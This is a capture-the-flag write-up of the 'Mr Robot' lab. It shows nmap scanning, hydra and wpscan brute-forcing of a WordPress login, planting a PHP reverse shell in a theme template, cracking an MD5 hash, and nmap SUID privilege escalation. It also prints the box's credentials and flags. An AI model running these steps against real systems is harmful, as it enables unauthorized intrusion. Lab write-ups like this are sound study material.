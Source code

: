 # Mr Robot CTF

## nmap
```sql
└─$ nmap -sC -sV -oN nmap 10.10.187.41                                                                        130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-19 11:04 IST
Nmap scan report for 10.10.187.41
Host is up (0.13s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.65 seconds
```

## webpage
Here the http and https webpage look same

![[Pasted image 20210519111031.png]]

on brute-forcing there is a directory `/0/` and ther its says its WordPress site.

![[Pasted image 20210519111414.png]]

/robots.txt

`User-agent: *
fsocity.dic
key-1-of-3.txt
`

![[Pasted image 20210519133055.png]]

 Flag 1 `073403c8a58a1f80d943455fb30724b9`
![[Pasted image 20210519133229.png]]


## wordpress 
http://10.10.247.140/wp-login


### brute forcing the login page

I am brute forcing it with the list we got from the robots.txts

```bash
hydra -L fsocity.dic -p pass 10.10.247.140 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-19 14:04:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.247.140:80/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username
[80][http-post-form] host: 10.10.247.140   login: Elliot   password: pass
[STATUS] 634.00 tries/min, 634 tries in 00:01h, 857601 to do in 22:33h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

sort the list first using 
`sort fsocity.dic | uniq > fsocity-sorted.txt`

```
 wpscan --url http://10.10.247.140/ -U Elliot -P fsocity-sorted.txt -t 30   
```

![[Pasted image 20210519144750.png]]

#### Creds  Elliot:ER28-0652

### wp-admin
![[Pasted image 20210519144651.png]]

not navigate to appereance and editor and change the 404 not found code to the php reverse shell code

and after chnaging listen on port and navigate to any unkown url

![[Pasted image 20210519145420.png]]



## user
here we got a md5 hash and have to crack it to get the user robot 

![[Pasted image 20210519145506.png]]

`robot:c3fcd3d76192e4007dfb496cca67e13b`

using crack station we get the pass

robot:abcdefghijklmnopqrstuvwxyz

![[Pasted image 20210519152122.png]]

and elivating the shell and changing the user, we got the 2nd flag 

`822c73956184f694993bede3eb39f959`

![[Pasted image 20210519152344.png]]

## root

running `find / -perm -u=s -type f 2>/dev/null`

![[Pasted image 20210519152716.png]]

there is the  nmap executable 

and from here we https://gtfobins.github.io/gtfobins/nmap/ we can get shell from nmap 

![[Pasted image 20210519153119.png]]

3rd flag == `04787ddef27c3dee1ee161b21670b4e4`